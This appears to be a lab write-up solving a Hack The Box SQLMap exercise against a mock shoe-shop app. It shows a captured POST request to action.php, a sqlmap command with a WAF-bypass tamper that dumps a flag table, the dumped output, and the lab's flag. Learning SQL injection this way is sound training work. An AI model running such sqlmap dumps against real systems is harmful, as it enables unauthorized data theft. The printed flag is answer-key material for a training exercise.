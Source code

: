 ﻿---
sticker: lucide//database-backup
---
You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

![Pasted image 20250204180837.png](../../../IMAGES/Pasted%20image%2020250204180837.png)

Once we go into the site, we can see the following:

![Pasted image 20250204180851.png](../../../IMAGES/Pasted%20image%2020250204180851.png)

Seems like a simple shoe shop, we have three interesting options we should take a look at: `Contact`, `Catalog`, `Blog`. We need to search around for some of them that injects code in the back-end server, let's take a look:

## Contact


![Pasted image 20250204181046.png](../../../IMAGES/Pasted%20image%2020250204181046.png)

In the contact site, we can see a form that we can fill in order to get in contact with the administrators. Nothing is off in this page, everything sets itself to `#`, so this is not what we're looking for.

## Blog
---

![Pasted image 20250204181231.png](../../../IMAGES/Pasted%20image%2020250204181231.png)

We have a search bar, but the same stuff happens as with the contact site, it gets set to `#`.

## Catalog
---

If we go to the catalog section, we can go into a `shop.html` site, if we inspect the source code for this page, we can see this interesting code:

```
<script>
    $(".add-to-cart").click(function(event) {
        event.preventDefault();

        let xhr = new XMLHttpRequest(); 
        let url = "action.php"; 
    
        xhr.open("POST", url, true); 
        xhr.setRequestHeader("Content-Type", "application/json"); 

        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) { 
                alert("Item added!!!")
            }
        };

        var data = JSON.stringify({ "id": 1 }); 
        xhr.send(data); 
    });
  </script>
```

The code basically acts whenever the `add-to-cart` button is clicked, the script posts a JSON object to the `action.php` endpoint.

We must capture the request with burp and use this command:

```
POST /action.php HTTP/1.1

Host: 94.237.53.230:33942

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.53.230:33942

Connection: keep-alive

Referer: http://94.237.53.230:33942/shop.html

Priority: u=0



{"id":1}
```

```
python3 sqlmap.py -r Add-To-Cart.txt --threads 10 --tamper=between -T final_flag --dump --batch
```

We get the following:

```
Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```

Flag is `HTB{n07_50_h4rd_r16h7?!}`


![Pasted image 20250204183428.png](../../../IMAGES/Pasted%20image%2020250204183428.png)
